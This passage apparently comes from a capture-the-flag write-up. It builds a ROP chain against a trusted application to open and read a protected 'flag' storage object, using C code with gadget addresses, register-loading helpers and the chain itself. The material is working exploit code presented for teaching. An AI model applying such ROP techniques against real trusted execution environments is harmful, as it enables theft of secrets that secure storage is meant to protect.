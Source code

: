 Now let's put it all together and build the ROP-chain.

Addresses we will use:
```c
/* Addresses used */
#define ROP_ADDRESS         0x14c664                  // ROP start in the stack
#define FLAG_KEY_ADDRESS    (ROP_ADDRESS + 0x200)     // Address of flag object key string ("flag")
#define FLAG_ADDRESS        0x201000                  // Address for flag object writing
#define FLAG_HANDLE_ADDRESS (ROP_ADDRESS + 0x3C)      // Address of flag object handle
#define WRITEABLE_ADDRESS   (ROP_ADDRESS + 0x210)     // Address we can write to

/* Gadgets */
#define BASE            0x117000            // Base address of loaded TA
#define RETURN          (BASE + 0x000073A8) // return from TA to kernel
#define OBJ_OPEN        (BASE + 0x00007714) // open object
#define OBJ_READ        (BASE + 0x000077D0) // read object
#define POP_R0_R1_R2_R3 (BASE + 0x00001f84) // pop {r0, r1, r2, r3} ; pop {ip, pc}
#define POP3            (BASE + 0x000073b8) // pop {r5, r6, r7, pc}
```
Loading registers:
```c
uint32_t rop[0x100];
size_t   ropsz;

#define DW(x) rop[ropsz++] = (x) // add Double Word to the ROP-chain

void regs(uint32_t r0, uint32_t r1, uint32_t r2, uint32_t r3)
{
  DW(POP_R0_R1_R2_R3);
  DW(r0);
  DW(r1);
  DW(r2);
  DW(r3);
  DW(0);
}
``` 
Calling functions:
```c
void call(uint32_t address)
{
  DW(address);
  DW(0);
  DW(0);
  DW(0);
}
```
Open flag storage object:
```c
void genrop(void)
{
  // Open flag storage object by it's key
  // Resulting object handle is written right in it's place in the ROP
  regs(1, FLAG_KEY_ADDRESS, 4, 1);                          // 00
  call(OBJ_OPEN);                                           // 18
  DW(POP3);                                                 // 28
  DW(FLAG_HANDLE_ADDRESS);                                  // 2C
  DW(0);                                                    // 30
  DW(0);                                                    // 34
```
Read the flag:
```c
  // Read flag from storage by object handle
  // Object handle is written in place of 0x41414141 in previous open call
  regs(0x41414141, FLAG_ADDRESS, 0x100, WRITEABLE_ADDRESS); // 38
  call(OBJ_READ);                                           // 50
```